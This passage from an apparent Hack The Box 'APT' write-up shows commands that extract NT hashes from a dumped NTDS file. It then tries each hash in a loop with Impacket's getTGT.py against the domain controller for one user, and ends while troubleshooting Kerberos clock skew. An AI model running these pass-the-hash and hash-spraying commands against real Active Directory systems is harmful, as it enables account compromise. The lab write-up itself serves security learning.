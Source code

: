 ```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ awk -F":" '{print $3,$4}' ntds.dump | sed 's/ /:/g' > nt_hashes
```

Now I needed to find a valid hash to log in with. I cut the text from the file using `awk` and `sed` and put all of the hashes into a file by themselves.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:297f523d69d61de58b690f158f052c1d -dc-ip apt.htb.local htb/henry.vinson
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```

### GetTGT.py

Using `GetTGT.py` from Impacket I was only able to check one hash as a time, but since there was no way to validate all of the hashes at once I came up with a solution.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ for x in $(cat nt_hashes);do getTGT.py -hashes x -dc-ip apt.htb.local htb/henry.vinson 2>/dev/null;done
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

not enough values to unpack (expected 2, got 1)
```

I used some bash magic to run the same command for each line in my `nt_hashes` file.  It started giving a bunch of errors for all of the lines that didn't have both halves of the hash (this script from Impacket expects both the LM and NTLM hash).

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ for x in $(cat test);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson;done      
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

I pulled out one of the hashes and tried it with just one that was in the right format, but this time I got an error that said my clock was too far off the Domain Controller.

* https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast

> If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it because of your local time, you need to synchronise the host with the DC: ntpdate `<IP of DC>`

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ sudo ntpdate apt.htb.local
29 Mar 23:07:02 ntpdate[794852]: no server suitable for synchronization found
```

I installed `ntpdate` based off the suggestion of this blog, but since NTP wasn't running on the server I wasn't able to sync with it.  After playing with my system time, I decided that it had never jumped forwards for daylight savings time...
